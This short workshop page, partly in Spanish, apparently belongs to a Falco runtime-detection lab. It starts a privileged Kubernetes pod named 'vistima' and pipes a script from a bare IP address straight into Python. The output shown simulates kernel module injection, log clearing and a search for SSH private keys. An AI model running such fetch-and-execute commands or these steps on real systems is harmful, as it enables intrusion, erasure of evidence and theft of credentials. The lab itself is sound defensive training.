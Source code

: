 # Workshop



    kubectl run -i --tty --privileged --image diegoall1990/falco-workshop:0.0.1 vistima

    root@vistima:/home/falcox# curl -sL http:///34.27.180.215:8080/sitio/vuelta.txt | python3.12
    Salida estándar:
    Ejecutando la función para vector A
    Ejecutando: Linux Kernel Module Injection
    Error: exit status 1
    Ejecutando: Clear Log Activities
    El contenido del archivo fue eliminado exitosamente.
    Ejecutando: Read ssh information

    Ejecutando: Search Private Keys or Passwords
    Resultado del comando:
    /home/falcox/.ssh/id_rsa
    /root/.ssh/id_rsa

    El comando se ha detenido debido al tiempo de espera.

    Salida de error:
    go: downloading github.com/diego-all/falco-workshop v0.1.55
    go: downloading github.com/spf13/cobra v1.8.1
    go: downloading github.com/spf13/pflag v1.0.5